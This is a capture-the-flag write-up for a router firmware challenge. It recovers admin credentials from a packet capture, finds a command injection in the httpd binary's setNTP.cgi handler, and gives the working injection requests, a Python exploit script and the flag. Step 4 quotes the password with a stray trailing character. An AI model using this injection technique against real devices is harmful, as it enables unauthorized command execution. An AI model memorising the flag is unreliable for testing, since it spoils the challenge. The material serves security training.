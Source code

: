 # Solution Write Up for 'TITLE OF CTF'
# Expected Behavior
## Provided Files
### `firmware.bin`
![firmware.bin](./assets/images/binwalk_firmware.png)

### `traffic.pcap`
![traffic.pcap](./assets/images/wireshark_traffic.png)

## Web Server
![management_console](./assets/images/management_console_login.png)

# Solution

1. Download [firmware.bin](./challenge/firmware.bin) and [traffic.pcap](./challenge/traffic.pcap).
2. Open `traffic.pcap` using Wireshark and notice that the majority of the packets are HTTP.
3. Follow one of the TCP streams which includes a POST request.

![Figure_1](./assets/images/tcp_stream_51.png)

**Figure 1**: Result of following TCP stream 51 in Wireshark.

4. Take note of the following information:
    - `POST /setWMM.cgi HTTP/1.1` indicates that the common gateway interface style of webpage interactivity is in use.
    - `Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` request header, which gives the credentials `admin:8^hj%u^40D8b8%lx47n0%`.
    - `Content-Type: application/x-www-form-urlencoded`, which indicates that the request body uses percent encoding.
        - This is also evident in the request body `page=%2Fstation%2Fqos.asp&{...}`.
    - `Server: httpd` response header, which hints that the vuln is located in the `httpd` binary.
5. Extract the firmware with `binwalk -er1 firmware.bin`.
    5a. If `binwalk` throws an error due to the `-1`, just omit it. This is not needed with some versions of `binwalk`.
    5b. If you have not already done so, `sasquatch` is needed to unpack old squashfs filesystems. It can be installed with:
    ```
    git clone https://github.com/devttys0/sasquatch.git && \
    cd sasquatch && \
    sed -i 's/apt-get install/apt-get -y install/' build.sh && \
    CFLAGS=-fcommon ./build.sh && \
    which sasquatch
    ```
6. Take note of:
    - The location of the `httpd` binary (`_firmware.bin.extracted/squashfs-root/usr/sbin/httpd`)
    - The presence (and location) of the dummy `/www/flag` file.
        - NOTE: Simply GETting the `/flag` path from a browser with not yield the file's content.
7. Search for a vulnerability in `httpd` which will allow code execution using only static analysis. One way a vulnerability can be found:
    - Search for all uses of `system` where the argument string contains `%s`. This will produce 3 resutls:
        - `"date -s %s"`
        - `"date -s %s%s%s%s%s.%s"`
        - `"echo %s > /sys/class/net/br0/bridge/predefined_url"`
    - A little bit of working backwards shows that only easily injectable format string is `"date -s %s%s%s%s%s.%s"`; the values that are substitued for the `%s` tokens come from URL arguments via `get_cgi`.

<!-- 0040d25c          sprintf(&var_10c, "date -s %s", $s0_1)
0040d274          system(&var_10c)

0040e0b4              sprintf(&var_124, "date -s %s%s%s%s%s.%s", $s5_1, $s4_1, $s1_1, $s0_1, $s6_1, $v0_14, &_gp)
0040e0d0              printf("cmd_sys=%s \n", &var_124)
0040e0e8              system(&var_124)

0041fae8              sprintf(&var_124, "echo %s > /sys/class/net/br0/bri…", $v0_25)
0041fb04              printf("cmd_sys=%s \n", &var_124)
0041fb1c              system(&var_124) -->

![Figure_2](./assets/images/do_setNTP.png)

**Figure 2**: Binanry Ninja's High Level IL view of the vulnerable funciton described in step 7. From the calls to `__assert`, it can be assumed that the function name is `do_setNTP`.

<!-- 8. Develop an exploit for this vulnerability. This can be as simple as a POST request. -->
8. Develop and exploit for this vulnerability. This can be as simple as a POST request.
    - The `/setNTP.cgi` endpoint deduced via `grep -i 'ntp' usr/sbin/httpd`.
    - The `Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` authorization header from the packet capture.
    - The `timeTag=manual` key-value pair from the logic of `do_setNTP`.
    - The `manual_sec_select` URL parameter (among options) from the calls to `get_cgi`.
    - The need for percent-encoding given the URL parameter context.
    - A semicolon must be prepended (and appended, depending which URL parameter is chosen) to the injected command to truncate the `date -s ` command.
```http
POST /setNTP.cgi HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=

timeTag=manual&manual_sec_select=<PERCENT_ENCODED_COMMAND_WITH_SEMICOLON_PREFIX>
```

9. Figure out a command which will make the contend of the flag file available via a GET request.
    
    0. As mentioned, `/www/flag` cannot be retrieved directly via a GET request.
    1. But other file types are clearly available. The extentions of files in `/www` can be shown with `find www -type f | cut -d '.' -f 2 | sort -u`.
    2. A whitelist of file extensions is present. `grep`ping for these file extensions shows a common result: `**.<EXTENTION>`
    3. The following command shows which file extensions are allowed: `strings usr/sbin/httpd | grep '\*\*\.'`.
    4. In order to make the flag content available, its file extention must change. Injecting the command `cp /www/flag /www/flag.css` will accomplish this.

<!-- ```bash
find www -type f | cut -d '.' -f 2 | sort -u
asp
css
gif
html
js
txt
strings usr/sbin/httpd | grep '\*\*\.'
**.asp*
**.htm
**.html
**.css
**.gif
**.jpg
**.png
**.ico
**.js*
``` -->

10. Percent-encode `;cp /www/flag /www/flag.css` to complete the expoit.
    - The result will be `%3Bcp%20/www/flag%20/www/flag.css`

11. Run the exploit.
```http
POST /setNTP.cgi HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=

timeTag=manual&manual_sec_select=%3Bcp%20/www/flag%20/www/flag.css
```

12. Get the flag!
```http
GET /flag.css HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=
```

## Supporting solution info
[//]: <> (Add your full solution scripts as files if applicable or use this section here to add a code block.)
```python
#!/usr/bin/env python3
'''
Solution script
'''
from urllib.parse import quote
from requests import get, post
from requests.auth import HTTPBasicAuth

VULNERABLE_ENDPOINT = 'http://localhost/setNTP.cgi'
HTTP_USER = 'admin'
HTTP_PASSWORD = '8^hj%u^40D8b8%lx47n0'
COPY_COMMAND = 'cp /www/flag /www/flag.css'
FLAG_URL = 'http://localhost/flag.css'

def copy_flag_to_www() -> None:
    '''
    Exploits command injection to make flag accessible.
    '''
    _ = post(
        VULNERABLE_ENDPOINT,
        data='timeTag=manual&manual_sec_select=' + quote(f';{COPY_COMMAND}'),
        auth=HTTPBasicAuth(HTTP_USER, HTTP_PASSWORD)
    )

def show_flag() -> None:
    '''
    Prints flag to standard out
    '''
    response = get(FLAG_URL, auth=HTTPBasicAuth(HTTP_USER, HTTP_PASSWORD))
    print(response.text)

if __name__ == '__main__':
    # NOTE: first connection can get refused for some reason.
    try:
        _ = get('http://localhost')
    except ConnectionError:
        pass

    copy_flag_to_www()
    show_flag()
```
### Usage: ```python3 ./solution.py```

### Expected output:

```ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)


# Flag
[//]: <> (Add the flag below)
**ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}**

